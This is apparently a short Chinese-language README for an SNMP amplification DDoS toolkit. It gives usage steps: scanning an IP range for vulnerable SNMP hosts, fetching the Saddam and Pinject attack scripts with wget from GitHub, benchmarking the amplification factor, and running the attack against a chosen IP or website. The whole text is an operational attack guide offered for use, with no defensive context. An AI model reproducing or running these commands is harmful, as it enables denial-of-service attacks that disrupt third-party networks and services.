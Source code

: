 # 使用說明
snmp漏洞主機掃瞄

./snmpscan 開始ip 結束ip 儲存檔案名稱 一次查詢數量 10

攻擊腳本下載

wget https://raw.githubusercontent.com/OffensivePython/Saddam/master/Saddam.py

wget https://raw.githubusercontent.com/OffensivePython/Pinject/master/pinject.py

攻擊腳本使用

測試倍數

python Saddam.py benchmark -s 掃瞄後的檔案

使用攻擊

python Saddam.py 攻擊ip或是網址 -s 掃瞄後的檔案
